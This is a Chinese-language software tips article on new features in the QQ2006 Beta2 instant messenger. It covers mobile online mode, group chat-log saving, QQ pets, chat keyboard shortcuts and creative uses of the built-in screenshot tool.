

## 开启“移动在线”功能，用手机登录QQ随时随地沟通

移动QQ用户可通过手机发“Q”到“1700”开启“移动在线”功能，可设置为每天24小时在线或白天在线，也可手动发送短信上下线。届时系统会帮你登录QQ，好友会看到你以移动在线头像登录，与你沟通不受时间、地点限制。好友只需双击你的移动在线头像或头像旁的小手机就能方便、快捷地打开无线聊天窗口，将聊天消息即时发送到你的手机，第一时间找到你（图8）。



## 手机好友聊天窗口优化，像聊QQ一样聊短信

全新的手机聊天窗口，替代了原有的“短信通”服务，给你提供与手机好友沟通的舒适环境。除了原有功能不变之外，新窗口沿袭了QQ聊天窗口的风格，保持了用QQ聊天的习惯。各项增值娱乐功能也更加清晰，即点即得。你还能向彩信手机发送QQ表情和电脑本地的图片，与在电脑上聊QQ一样简单方便（图9）。



## 优化QQ群体验，更有群空间全新整合

QQ2006 Beta2对群功能进行整合，将原有的群BBS、群相册等功能重新整合成群空间服务。同时，更提供了全新的服务——在群空间中保存和查看群聊天记录，管理员手动开通服务后，服务器便自动为群保存聊天内容并可以实时在群空间内显示，让你随时随地查看群消息。点击群空间，在群空间中选择聊天记录，在如图10中开通群聊天记录保存服务，开通后就会看到聊天记录是每天保存成一组记录（图11、12）。







## 增加身份验证的问题设置功能，防止骚扰的好方法

有很多无聊的人想加你为好友，查看验证消息就让我们头痛。增加问题验证，只有有缘人才能成为我们的好友（图13）。

## “Q宠伴侣”，带着QQ宠物一起聊天

QQ宠物可以“旅游”了？真的，QQ2006 Beta2最新推出了“Q宠伴侣”功能，在Q宠聊天模式下，自己的宠物可以“旅游”到好友的桌面上，好友可以“爱抚”“喂食”你的宠物，当然，你也可以小小“欺负”一下好友的宠物，还可以配合表情符号做各种丰富的宠物动作，这样的聊天情景你想象过吗？——“Q宠伴侣”带给你超乎想象的聊天乐趣，边聊边“宠”，让你的桌面“跳”起来。



## 1.2 QQ聊天时常用快捷键

QQ/TM聊天时有一些方便的快捷键，这里告诉大家，让我们的交流更顺利。

- **Ctrl+R**：对输入框或消息栏里当前行的文字右对齐（TM是打开信息管理器），如图1。
- **Ctrl+L**：恢复输入框里的文字左对齐。
- **Ctrl+E**：对输入框或消息栏里当前行的文字居中对齐，图2。
- **Ctrl+鼠标滚轮**：迅速调整输入框或消息栏里的文字显示大小。
- **Ctrl+Z**：清空/恢复输入框里的文字并恢复为默认显示大小。
- **Ctrl+F**：QQ里直接显示字体设置工具条；TM弹出“字体”设置对话框。
- **Ctrl+G**：QQ中无对应功能；TM会弹出“TM设置”窗口。
- **Ctrl+I**：QQ实现在输入框中输入表情符；TM则打开“查看用户信息”窗口。
- **Ctrl+J**：输入框里回车。
- **Ctrl+M**：在QQ实现输入框里回车；TM则实现给该联系人“发送手机短信”。
- **Ctrl+S**或**Ctrl+F4**：在QQ里弹出QQ搜索网页；TM无对应功能。
- **Ctrl+`**：全局热键，隐藏第一个TM程序打开的所有窗口（包括主窗口）。





### QQ截图的另类用途

QQ自带有屏幕捕捉功能，默认快捷键为：Ctrl+Alt+A，使用非常方便，给好友截个图、写文章的截图，不用另开专门的截图软件，节省系统资源。QQ截图不只是能普通截图，还有一些另类的用法。

## 精确截取图片大小

在有的论坛或游戏中要求上传的图片都有规定大小，像论坛的头像和签名，BBS中头像需要规定尺寸大小的两个图片。用QQ截图键可以按尺寸精确截取，一步到位无需再进行后期裁剪了。

按下QQ截图键，按住鼠标不放选取截取范围时，在鼠标上方会有一个信息框显示当前范围的详细信息，其中“矩形大小”就是以像素来表示的图片尺寸，括号内的数字分别表示的是长和高（图1）。松开鼠标调整截图框时，对照“矩形大小”就可以按需要的尺寸来精确截图范围，然后用鼠标点住截图框将截图框拖到要截取的图片上，双击即可获得所需尺寸的图片了。



## 获取颜色的RGB值

我们在编辑图片或网页的时候，经常需要获取某种颜色的“RGB值”，所以很多人都安装了第三方的颜色吸取工具。其实用QQ截图键即可获取屏幕上任意颜色的RGB值。

当按下“Ctrl+Shift+A”弹出“截图”提示框时，提示框中的“当前像素RGB”即为当前鼠标屏幕位置的颜色RGB值，将鼠标移动到你想查看的屏幕颜色上即可获得相应的RGB值（图2）。



## 图片拼贴好帮手

大部分截图软件一次只能截取一张图片，当要截取多张图片并进行拼贴组合时，就需要一张一张截取全部保存后再进行拼贴操作，非常麻烦。我们知道用QQ截图键截取的图片可以在任一个可以粘贴图片的程序中使用，这样只需用截图软件进行一次截图操作，剩下的图片用QQ截图键来截取，然后依次粘贴到截图软件的窗口中即可快速进行拼贴操作了，是不是很方便啊。



## 播放影片的动、静态截图

正在播放的视频也可以用QQ截图，并且分静态和动态两种。在聊天窗口中点击截图按钮（图3），选择“静态影片截图”，然后点击播放器窗口，按下Scroll Lock键，就会截取当前播放的画面（图4）。截图动态影片前你可以根据自己的截图要求进行设置，选择“影片截图设置”，这里能设置像素、捕捉帧数等，它的截取方法同静态图片一样。

